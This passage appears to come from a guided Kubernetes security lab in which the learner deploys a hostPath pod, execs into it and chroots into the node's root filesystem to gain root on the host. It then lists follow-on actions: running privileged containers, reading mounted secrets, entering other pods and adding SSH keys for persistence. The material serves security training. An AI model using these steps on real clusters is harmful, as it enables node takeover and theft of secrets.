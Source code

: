2. Run `kubectl get pod` and re-run until it's in the "Running" state:
    

```apache
kubectl get pod
```

(Output)

```apache
NAME       READY   STATUS    RESTARTS   AGE
hostpath   1/1     Running   0          30s
```

Click *Check my progress* to verify the objective.

Deploy a pod that mounts the host filesystem

**Check my progress**

## Task 4. Explore and compromise the underlying host

1. Run the following to obtain a shell inside the pod you just created:
    

```apache
kubectl exec -it hostpath -- bash
```

2. Switch to the pod shell's root filesystem point to that of the underlying host:
    

```apache
chroot /rootfs /bin/bash
```

With those simple commands, the pod is now effectively a `root` shell on the node. You are now able to do the following:

| run the standard docker command with full permissions | `docker ps` |
| --- | --- |
| list docker images | `docker images` |
| `docker run` a privileged container of your choosing | `docker run --privileged <imagename>:<imageversion>` |
| examine the Kubernetes secrets mounted | `mount | grep volumes | awk '{print $3}' | xargs ls` |
| `exec` into any running container (even into another pod in another namespace) | `docker exec -it <docker container ID> sh` |

Nearly every operation that the `root` user can perform is available to this pod shell. This includes persistence mechanisms like adding SSH users/keys, running privileged docker containers on the host outside the view of Kubernetes, and much more.

3. To exit the pod shell, run `exit` twice - once to leave the `chroot` and another to leave the pod's shell:
    

```apache
exit
```

```apache
exit
```
